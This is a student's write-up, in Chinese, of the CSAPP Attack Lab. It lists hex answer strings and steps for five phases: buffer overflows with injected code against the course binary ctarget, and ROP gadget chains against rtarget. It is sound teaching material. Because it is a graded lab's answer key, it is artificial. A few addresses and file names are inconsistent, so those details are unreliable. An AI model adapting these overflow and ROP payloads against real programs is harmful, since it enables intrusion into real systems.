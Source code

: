 # CSAPP：Attack Lab 实验报告
23307110043 孙天宇

### target170
### cookie: 0x2236c49a
<br>

## 实验目的
![alt text](image.png)
<br>

## 实验步骤
### 准备阶段：
- 访问`http://10.176.122.240:15513/`获取`targetk.tar`压缩文件
- 输入`tar -xvf target7.tar`命令解压
- 使用`objdump -d ctarget > ctarget.asm`，`objdump -d rtarget > rtarget.asm`命令对ctarget以及rtarget进行反汇编，得到ctarget.asm和rtarget.asm两个汇编文件
- 使用`gdb`进行调试

### phase1(phase1.txt)：
### phase1.txt
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
5c 17 40 00 00 00 00 00
```
### 解题思路：
- 1. 由此可知缓冲区大小为0x38=56字节，且可知`getbuf`函数存在栈溢出漏洞
![alt text](image-1.png)

- 2. 构造输入，先填满缓冲区（先任意放置56个16进制数），最后8个数使得返回地址被覆盖为`touch1`的地址（由图可知为40175c，此图所在文件`ctarget.asm`也包含了后续`touch2`和`touch3`的地址）
![alt text](image-2.png)

- 3. 运行命令：`./hex2raw < phase1.txt | ./ctarget`，由此即完成phase1的攻击，成功结果如下图：
![alt text](image-3.png)

<br>

### phase2(phase2.txt)：
### phase2.txt
```
48 c7 c7 9a c4 36 22
68 88 17 40 00
c3  
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
f8 63 61 55 00 00 00 00
```
### 解题思路：
- 1. 写汇编代码，将cookie值（`0x2236c49a`）存入`%rdi`，同时将touch2的地址push入栈
`result2_1.s`
    ```
    movq $0x2236c49a,%rdi
    pushq $0x00401788
    retq
    ```

- 2. 使用代码`gcc -c result2_1.s` `objdump -d result2_1.o > result2_2.txt`得到二进制表示，生成文件`result2_2.txt`
![alt text](image-4.png)

- 3. 使用如下命令获取栈顶地址：
        ```
        gdb ctarget
        (gdb)b getbuf
        (gdb)r
        (gdb)print $rsp
        ```

- 4. 前13个字节为注入的代码，任意补充56-13=43个数据填满56个字节，加上栈顶地址（0x556163f8），存入`phase2.txt`

- 5. 运行命令：`./hex2raw < phase2.txt | ./ctarget`，由此即完成phase2的攻击，成功结果如下图：
![alt text](image-5.png)

### phase3(phase3.txt)：
### phase3.txt
```
48 c7 c7 3b 64 61 55
68 99 18 40 00
c3
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00 
00 00 00
f8 63 61 55 00 00 00 00
00 00 00
32 32 33 36 63 34 39 61 00  
```
### 解题思路：
- 1. 获取栈顶地址（0x55616430），计算减去缓冲区大小（0x38）后的地址（0x5566163f8）（此为缓冲区起始地址）

- 2. 选择偏移量（此处选择11字节），计算偏移后地址（0x5561643b）存入`%rdi`中。如phase2生成`result3_2.txt`文件
        ```
        result3_1.s

        movq $0x5561643b,%rdi
        pushq 0x401899
        retq
        ```
        ![alt text](image-6.png)

- 3. 如phase2，写入`phase3.txt`，中间放入缓冲区起始地址，然后补全11-8=3个字节，最后一行写入按照ASCII码对应的到的cookie值和结束符，即得完整的答案。
<br>
整体布局：注入代码 + 填充 + 缓冲区起始地址 + 字符串

- 4. 运行命令：`./hex2raw < phase3.txt | ./ctarget`，由此即完成phase3的攻击，成功结果如下图：
![alt text](image-7.png)

### phase4(phase4.txt)：
### phase4.txt
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
39 19 40 00 00 00 00 00
9a c4 36 22 00 00 00 00
4d 19 40 00 00 00 00 00
88 17 40 00 00 00 00 00
```
### 解题思路：
- 结构：填充缓冲区（56个字节），接ROP链：
  - gadget1地址(0x401939) - pop %rax; ret
  - cookie值(0x2236c49a)
  - gadget2地址(0x40194d) - mov %rax,%rdi; ret
  - touch2函数地址(0x401788)
  - gadget地址可在`rtarget.asm`文件中通过搜索相应命令对应的机器码获得
- 运行命令：`./hex2raw < phase4.txt | ./rtarget`，由此即完成phase4的攻击，成功结果如下图：
![alt text](image-8.png)

### phase5(phase5.txt)：
### phase5.txt
```
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
95 19 40 00 00 00 00 00
74 19 40 00 00 00 00 00
4d 19 40 00 00 00 00 00
99 18 40 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00
32 32 33 36 63 34 39 61 00 
```
### 解题思路：
- 1. 先填充56字节破坏栈，紧接着是`movq %rsp,%rax`，将当前栈顶位置存`%rax`.这段代码的位置是`0x401995`
- 2. 接着 `add $0x37,%al` ，给 `%rax` 加值`0x37`，得到栈顶往底部`0x37`（十进制55）位置处。这段代码位置是`0x401974`
- 3. 然后将`%rax`值传入函数的参数`%rdi`，代码位置是`0x40194d`
- 4. 然后跳转到`touch3`函数。这段代码位置是`0x401899`
- 5. 在一开始调rsp加存入字符串cookie（转换成对应的ASCII码），并在其前面填充字节使其地址与保存的栈顶地址相差55个字节，共要填充 (55-3×8)=31 个字节。
- 以上地址的获取方式为：对照说明文档中的表格查询命令对应的机器码，然后在`rtarget.asm`文件中搜索相应机器码，即可获得地址
![alt text](image-9.png)
- 运行命令：`./hex2raw < phase5.txt | ./rtarget`，由此即完成phas5的攻击，成功结果如下图：
![alt text](image-10.png)